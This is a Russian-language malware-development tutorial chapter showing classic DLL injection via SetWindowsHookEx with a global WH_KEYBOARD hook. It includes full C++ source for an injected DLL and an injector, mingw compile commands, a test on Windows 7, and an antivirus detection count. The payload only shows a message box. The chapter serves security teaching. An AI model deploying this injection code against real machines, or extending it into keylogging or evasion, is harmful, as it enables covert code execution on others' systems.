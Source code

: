 \newpage
\subsection{17. классическая DLL-инъекция через SetWindowsHookEx. Простейший вредонос на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ

![dll injection](./images/25/2021-11-24_18-00.png){width="80%"}    

В этом уроке я рассмотрю DLL-инъекцию с использованием метода `SetWindowsHookEx`.

### SetWindowsHookEx

Давайте рассмотрим пример, демонстрирующий этот метод. Функция `SetWindowsHookEx` устанавливает перехватчик в цепочку хуков, который затем вызывается при возникновении определенных событий. Давайте посмотрим на синтаксис функции:

```cpp
HHOOK SetWindowsHookExA(
  [in] int       idHook,
  [in] HOOKPROC  lpfn,
  [in] HINSTANCE hmod,
  [in] DWORD     dwThreadId
);
```

Наиболее важным параметром здесь является `idHook`. Это тип устанавливаемого хука, который может принимать одно из следующих значений:

- `WH_CALLWNDPROC`
- `WH_CALLWNDPROCRET`
- `WH_CBT`
- `WH_DEBUG`
- `WH_FOREGROUNDIDLE`
- `WH_GETMESSAGE`
- `WH_JOURNALPLAYBACK`
- `WH_JOURNALRECORD`
- `WH_KEYBOARD`
- `WH_KEYBOARD_LL`
- `WH_MOUSE`
- `WH_MOUSE_LL`
- `WH_MSGFILTER`
- `WH_SHELL`
- `WH_SYSMSGFILTER`

В нашем случае я буду перехватывать события типа `WH_KEYBOARD`, что позволит нам отслеживать нажатия клавиш.

### Вредоносная DLL

Давайте подготовим нашу вредоносную DLL. Для простоты создадим DLL, которая просто покажет всплывающее окно с сообщением:

```cpp
/*
evil.cpp
Простая DLL для инъекции в процесс
Автор: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/11/25/malware-injection-7.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}

extern "C" __declspec(dllexport) int Meow() {
  MessageBox(
    NULL,
    "Meow from evil.dll!",
    "=^..^=",
    MB_OK
  );
  return 0;
}
```

Как видите, у нас довольно простая DLL. Функция `DllMain()` вызывается при загрузке DLL в адресное пространство процесса. Также есть экспортируемая функция `Meow()`, которая просто показывает всплывающее сообщение *"Meow from evil.dll!"*.

### пример. простой вредоносный код.

Далее нам нужно создать наш вредоносный код. Давайте посмотрим исходный код:
```cpp
/*
hack.cpp
DLL-инъекция через SetWindowsHookEx
автор: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/11/25/malware-injection-7.html
*/
#include <windows.h>
#include <cstdio>

typedef int (__cdecl *MeowProc)();

int main(void) {
  HINSTANCE meowDll;
  MeowProc meowFunc;
  // загружаем вредоносную DLL
  meowDll = LoadLibrary(TEXT("evil.dll"));

  // получаем адрес экспортированной функции из вредоносной DLL
  meowFunc = (MeowProc) GetProcAddress(meowDll, "Meow");

  // устанавливаем хук - используя действие WH_KEYBOARD
  HHOOK hook = SetWindowsHookEx(WH_KEYBOARD, 
  (HOOKPROC)meowFunc, meowDll, 0);
  Sleep(5*1000);
  UnhookWindowsHookEx(hook);

  return 0;
}
```

Это также довольно просто. Прежде всего, мы вызываем `LoadLibrary`, чтобы загрузить нашу вредоносную DLL:    

![dll injection 2](./images/25/2021-11-25_15-35.png){width="80%"}    

Затем мы вызываем `GetProcAddress`, чтобы получить адрес экспортированной функции `Meow`:    

![dll injection 3](./images/25/2021-11-25_15-36.png){width="80%"}    

После этого наш вредоносный код вызывает самую важную функцию - `SetWindowsHookEx`. Параметры, передаваемые в эту функцию, определяют, что именно она будет делать:   

![dll injection 4](./images/25/2021-11-25_15-40.png){width="80%"}    

Как видно, при каждом событии клавиатуры будет вызываться наша функция. Мы передаем адрес нашей экспортированной функции - параметр `meowFunc`. Также мы передаем дескриптор нашей DLL - параметр `meowDll`. Последний параметр `0` указывает, что мы хотим установить глобальный хук для всех программ, а не только для одной конкретной.    

Затем мы вызываем `Sleep`:

![dll injection 5](./images/25/2021-11-25_15-44.png){width="80%"}    

чтобы продемонстрировать, что наш хук работает.

Затем вызываем функцию `UnhookWindowsHookEx()`, чтобы убрать ранее установленный хук `WH_KEYBOARD`:  

![dll injection 6](./images/25/2021-11-25_15-46.png){width="80%"}    

Теперь, когда мы разобрались с кодом вредоносной программы, мы можем протестировать его.    
Сначала скомпилируем вредоносную DLL:
```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

![dll injection 7](./images/25/2021-11-25_15-48.png){width="80%"}    

Компилируем код вредоносной программы:
```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive
```

![dll injection 8](./images/25/2021-11-25_15-50.png){width="80%"}    

Затем проверяем всё в действии! Запускаем наш `hack.exe` на целевой машине (Windows 7 x64):
```cmd
.\hack.exe
```

![dll injection 9](./images/25/2021-11-25_15-54.png){width="80%"}    

Мы видим, что всё выполнено успешно, и на этом этапе при запуске программы наше всплывающее сообщение появляется только при нажатии клавиши на клавиатуре.

### Заключение

В этом разделе я продемонстрировал, как мы можем использовать функцию `SetWindowsHookEx` для внедрения DLL в адресное пространство процесса и выполнения произвольного кода внутри него.    

Однако есть одно предостережение. Этот метод не работает на моей машине с Windows 10 x64. Я думаю, причина в следующем: CIG блокирует этот метод. Windows 10 x64 имеет два важных механизма:

- **CFG (Control Flow Guard)** – предотвращает косвенные вызовы на неразрешённые адреса.
- **CIG (Code Integrity Guard)** – разрешает загрузку в память процесса только модулей, подписанных Microsoft/Microsoft Store/WHQL.    

В [этой](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf) презентации с BlackHat USA 2019 авторы объясняют, что CIG блокирует этот метод.    

Давайте загрузим наш `hack.exe` на virustotal:

![dll injection 10](./images/25/2021-11-26_03-02.png){width="80%"}    

[https://www.virustotal.com/gui/file/273e191999eb6a4bc010eeaf9c4e196d917509250f87a121fa1cfeded41b7921](https://www.virustotal.com/gui/file/273e191999eb6a4bc010eeaf9c4e196d917509250f87a121fa1cfeded41b7921)    

**Итак, 5 из 67 антивирусных движков обнаруживают наш файл как вредоносный.**

[BlackHat USA 2019 process injection techniques Gotta Catch Them All](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf)     
[SetWindowsHookEx](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-setwindowshookexa)    
[Using Hooks MSDN](https://docs.microsoft.com/en-us/windows/win32/winmsg/using-hooks)    
[Exporting from a DLL](https://docs.microsoft.com/en-us/cpp/build/exporting-from-a-dll-using-declspec-dllexport?view=msvc-170)        
[исходный код на Github](https://github.com/cocomelonc/2021-11-24-malware-injection-7)    
